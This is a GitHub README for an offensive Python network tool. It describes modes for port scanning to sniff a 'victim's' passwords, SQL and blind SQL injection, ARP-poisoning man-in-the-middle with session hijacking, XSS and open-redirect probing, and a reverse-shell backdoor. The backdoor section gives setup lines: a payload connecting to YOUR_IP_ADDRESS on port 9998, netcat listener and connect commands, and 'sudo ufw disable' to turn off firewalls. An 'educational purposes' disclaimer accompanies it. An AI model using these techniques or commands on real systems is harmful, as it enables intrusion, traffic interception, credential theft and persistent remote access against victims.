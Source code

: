 # CustomNetworkTool
❗ Do not use it for malicious purposes, it's only for educational purposes.
 Stay in Legal !!!!!

 
Usage: git clone https://github.com/YusufMarall/CustomNetworkTool.git &&
cd NetworkTool &&
python3 CNTool.py


![Ekran görüntüsü 2024-06-17 155733](https://github.com/YusufMarall/CustomNetworkTool/assets/114530242/eb208ca9-b528-49f3-8ac4-adccd54fd553)


## Remarks and Instructions for Use

This tool is designed to perform various network and security tests. Below you can find each mode and instructions for use.

### if(r==1)
####Scanning Port Similar to  Nmap
I wrote a module similar to Nmap, but faster than Nmap because I only scan specific ports. This works like this:

- If one of the specific ports I scan is open, I can use a network analyzer like Wireshark to monitor the traffic coming through that port. For example, when port 8080 (HTTP) is open, if our victim logs into an HTTP site through this port, I can see sensitive information such as his password.

### if(r==2)
#### Showing Website Content and SQL Injection Attempt
1. **Show Website Content**:
   - Shows the content of the website. If we know JavaScript, we can manipulate this content very easily.

2. **SQL Injection Attempt**:
   - Attempts SQL injection by sending our payloads with specific codes to the URL. If there is a database, this attack can be successful.

### if(r==3)
#### Man-in-the-Middle (MitM) Attack
1. **Man-in-the-Middle (MitM) Attack**:
   - ARP (Address Resolution Protocol): Maps a MAC address to an IP address.
   - ARP Poisoning: A cyber attack technique commonly used in local area networks. Using ARP poisoning, it can monitor and modify the communication between two devices without interrupting it. In this case, it can monitor and modify all traffic between the gateway (router) and the target device. For example, by monitoring the traffic between the gateway and the user, an attacker can intercept sensitive information (passwords, credit card information, etc.) sent by the user.

2. **Data Capture**:
   - With ARP poisoning, the attacker can redirect all network traffic of the target device to his own device and analyze this traffic. In this way, the attacker can capture and record all data passing through the target device.

3. **Session Hijacking**:
   - It can hijack sessions by capturing session cookies. This can be used to take over a user's session and gain unauthorized access to the user's accounts.

4. **Modifying Network Traffic**:
   - Can modify data packets between two devices. For example, it can modify web pages, redirect users to fake websites or inject malware into network traffic.

### if(r==4)
Blind sql injection does injection is a type of SQL Injection attack that asks the database true or false questions and determines the answer based on the application's response and learns the database name
### if(r==5)
#### Reverse Shell and Netcat Usage
Reverse shell code creates payload and works like a backdoor. With Netcat, we can attack file uploading, eavesdropping, etc.

*Step 1: Make sure that the `payload.py` file on the victim machine is using the correct IP address and port. Check that your IP address is correct and the port you are listening on is 9998:
```python
s.connect(('YOUR_IP_ADDRESS', 9998)) # Replace YOUR_IP_ADDRESS with the IP address of your own machine
*Step 2: Set the Listening Machine Correctly
Make sure to start listening with netcat on the listening machine. Make sure you are listening using the correct port:
Linux:
nc -lvp 9998
*Step 3: Check Firewall and Firewalls
Firewalls or network firewalls on the listening machine and the victim machine may be blocking the connection. Try temporarily turning off the firewall on both machines:
Linux:
sudo ufw disable
Windows:ping YOUR_IP_ADDRESS
Step 4: Check Network Connectivity
Make sure that the network connection from the victim machine to the listening machine is working. Check the connection by pinging from the victim machine to the listening machine:
Windows:
ping YOUR_IP_ADDRESS
Linux:
ping YOUR_IP_ADDRESS
Step 5: Perform a Simple Connectivity Test with Netcat
Start listening with netcat on the listening machine:
Linux:
nc -lvp 9998
Try to establish a connection using netcat on the victim machine:
Linux:
nc YOUR_IP_ADDRESS 9998.

### if r==6
###xss Cross-site scripting attack
###Open redirect vulnerability:
Explicit redirection vulnerabilities occur when an application insecurely incorporates user-controllable data into a redirection destination.
An attacker can generate a URL within the application that causes a redirection to an arbitrary external domain.
Hint===?redirect={payload}
